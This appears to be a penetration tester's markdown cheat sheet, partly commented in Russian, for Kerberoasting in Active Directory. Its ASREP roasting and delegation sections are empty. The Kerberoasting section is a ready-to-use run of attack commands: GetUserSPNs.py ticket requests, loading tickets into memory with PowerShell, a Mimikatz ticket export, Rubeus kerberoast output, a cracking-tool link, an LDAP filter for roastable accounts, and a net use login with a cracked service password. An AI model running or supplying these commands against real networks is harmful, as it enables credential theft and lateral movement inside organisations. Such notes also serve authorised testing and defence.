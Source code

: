 ## Kerberoasting (NEED CREDENTIALS!):  
1) GetUserSPNs.py domain.local/user:password - RECON SPNs  
2) GetUserSPNs.py -request -dc-ip 10.0.0.1 domain.com/username  
3) GetUserSPNs.py domain.local/user:password -dc-ip [DC IP] -request  
4) Windows: setspn -T TestDomain -Q '*/*'  
            - загружаем билеты в память для дальнейних действий.  
            - Add-Type -AssemblyName System.IdentityModel  
            - New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSERVER/SQL-Server.testdomain.com:1433"  
            - Проверяем, что билет загружен в память: klist  
            - Invoke-Mimikatz –Command '" kerberos::list"' /export (модуль PowerSploit)  
              - Софт для перебора билета tgsrepcrack.py https://github.com/nidem/kerberoast  
            - После взлома пароля: net use \\WIN-4QHPFSI8002\c$ /user:SQLSVC Password1  
 5) Windows: Rubeus.exe kerberoast /outfile:hashes.txt  
 
Всех пользователей, у которых можно выгрузить TGS-билет, можно найти поисковым LDAP-фильтром: (&(samAccountType=805306368)(servicePrincipalName=*))

## ASREP Roasting:  


## Unconstrained Delegation:  


## Constrained Delegation:  


## Alternate Service Name:  


## 
